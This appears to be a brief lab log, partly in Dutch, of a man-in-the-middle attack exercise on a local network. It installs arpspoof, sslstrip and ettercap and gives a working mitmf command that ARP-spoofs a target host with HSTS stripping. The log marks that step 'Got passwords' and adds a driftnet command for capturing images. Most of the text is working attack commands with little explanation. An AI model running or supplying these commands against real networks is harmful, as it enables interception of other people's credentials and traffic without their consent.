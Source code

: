 #28122015

###Man In The Middle attack without ettercap

Installing arpspoof(dsniff)
* apt-get install dsniff

Installing sslstrip
* [LINK] (http://blog.petrilopia.net/linux/raspberry-pi-install-sslstrip/)

no module twisted web found
* apt-get install python-twisted-web

default gateway on attacker pc
* route -n

Mac address from attack computer the same as raspberry 

![FOTO](http://i.imgur.com/x5ZWnHw.png)

###With ettercap

![FOTO](http://i.imgur.com/DkTBB9v.jpg)

![FOTO](http://i.imgur.com/uCBNZT1.jpg)

![FOTO](http://i.imgur.com/2JCA5ow.jpg)

![FOTO](http://i.imgur.com/BgeXIaa.jpg)

###With raspberry

install unzip

**We chose to stop our work with the raspberry pi**

###On pc

Problems with twisted-web

GEDULD IS EEN MOOIE ZAAK!

**Got passwords** 
* mitmf -i eth0 --target 192.168.137.64 --gateway 192.168.137.1  --arp --spoof --hsts
* 2 spaties voor --arp!!!!!

**Got images** 
* driftnet -b -i eth0

WORKED WITH WIFI!!!


